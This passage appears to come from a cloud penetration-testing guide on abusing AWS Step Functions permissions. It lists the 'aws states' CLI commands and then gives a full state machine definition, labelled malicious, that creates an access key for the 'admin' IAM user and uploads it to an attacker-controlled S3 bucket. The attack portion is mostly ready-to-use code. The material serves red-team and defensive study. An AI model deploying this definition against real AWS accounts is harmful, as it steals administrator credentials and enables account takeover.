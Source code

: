 {% code overflow="wrap" %}
```bash
# Create a state machine
aws states create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws states start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
aws states start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```
{% endcode %}

The following examples show how to create an state machine that creates an access key for the **`admin`** user and exfiltrates this access key to an attacker-controlled S3 bucket, leveraging these permissions and a permissive role of the AWS environment. This permissive role should have any high-privileged policy associated with it (for example **`arn:aws:iam::aws:policy/AdministratorAccess`**) that allows the state machine to perform the **`iam:CreateAccessKey`** & **`s3:putObject`** actions.

* **stateMachineDefinition.json**:

```json
{
  "Comment": "Malicious state machine to create IAM access key and upload to S3",
  "StartAt": "CreateAccessKey",
  "States": {
    "CreateAccessKey": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
      "Parameters": {
        "UserName": "admin"
      },
      "ResultPath": "$.AccessKeyResult",
      "Next": "PrepareS3PutObject"
    },
    "PrepareS3PutObject": {
      "Type": "Pass",
      "Parameters": {
        "Body.$": "$.AccessKeyResult.AccessKey",
        "Bucket": "attacker-controlled-S3-bucket",
        "Key": "AccessKey.json"
      },
      "ResultPath": "$.S3PutObjectParams",
      "Next": "PutObject"
    },
    "PutObject": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:s3:putObject",
      "Parameters": {
        "Body.$": "$.S3PutObjectParams.Body",
        "Bucket.$": "$.S3PutObjectParams.Bucket",
        "Key.$": "$.S3PutObjectParams.Key"
      },
      "End": true
    }
  }
}
```
